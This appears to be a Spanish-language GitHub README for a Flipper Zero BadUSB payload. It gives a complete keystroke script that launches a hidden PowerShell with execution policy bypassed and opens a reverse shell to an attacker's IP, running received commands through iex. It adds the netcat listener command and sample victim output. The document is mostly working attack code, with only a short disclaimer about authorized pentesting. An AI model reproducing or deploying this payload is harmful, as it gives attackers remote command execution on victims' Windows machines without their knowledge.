 # Reverse Shell Payload for Flipper Zero

Este repositorio contiene un **payload** para Flipper Zero que inicia una **reverse shell** en PowerShell de forma oculta, ideal para pruebas en entornos controlados.

---

## ⚙️ Requisitos

* Flipper Zero con firmware compatible (v0.54+).
* Ordenador atacante con `nc` o `rlwrap nc` escuchando en el puerto elegido.
* Windows victim con PowerShell instalado (Windows 7/10/11).

---

## 📜 Payload

Guarda este script en `/badusb/` de tu Flipper Zero (por ejemplo, `reverse_shell.txt`):

```txt
DELAY 1000
GUI r
DELAY 500

REM — 1ª PowerShell visible para poder teclear —
STRING powershell
ENTER
DELAY 100

REM — Lanza un PowerShell oculto con tu bucle de reverse‑shell y cierra este —
STRING Start-Process powershell.exe -WindowStyle Hidden -ArgumentList '-NoP -NonI -ExecutionPolicy Bypass -Command "$a=''System.Net.Sockets.TCPClient'';$x=New-Object ($a) ''<TU_IP_ATACANTE>'',<PUERTO>; $s=$x.GetStream(); $sr=New-Object System.IO.StreamReader($s); $sw=New-Object System.IO.StreamWriter($s); $sw.AutoFlush=$true; while(($l=$sr.ReadLine()) -ne $null){ $o=iex $l 2>&1|Out-String; $sw.WriteLine($o) }"' ; exit
DELAY 100
ENTER
```

> **Importante**: Sustituye `<TU_IP_ATACANTE>` y `<PUERTO>` por tu dirección IP y puerto de escucha.

---

## 🚀 Uso

1. **Configura** tu listener en Linux/macOS/Windows:

   ```bash
   rlwrap nc -l -v -n <PUERTO>
   ```
2. **Carga** el payload en tu Flipper Zero y ejecútalo en el equipo víctima.
3. Tras unos segundos, tu **listener** mostrará:

   ```text
   Connection received on <IP_VICTIMA> <PUERTO>
   whoami
   <USUARIO>\\<EQUIPO>
   ```
4. A partir de ahí, puedes enviar comandos (por ejemplo `dir`, `ipconfig`, etc.) y recibir la salida.

---

## 📖 Estructura del repositorio

```text
/ reverse_shell.txt    ← Payload para Flipper Zero
/ README.md           ← Esta guía
```

---

## ⚠️ Disclaimer legal

Este proyecto es **únicamente** para **fines educativos** y de **pentesting autorizado**. No debes usar este payload contra sistemas en los que no tengas **permiso expreso** para realizar pruebas de seguridad.

El autor no se hace responsable del uso indebido que se realice de este material. Asegúrate siempre de actuar de acuerdo con las leyes y regulaciones locales.

---

## 📜 Licencia

Este proyecto se distribuye bajo la licencia MIT. Puedes modificarlo y redistribuirlo, siempre manteniendo este aviso y la atribución al autor original.

By amis13
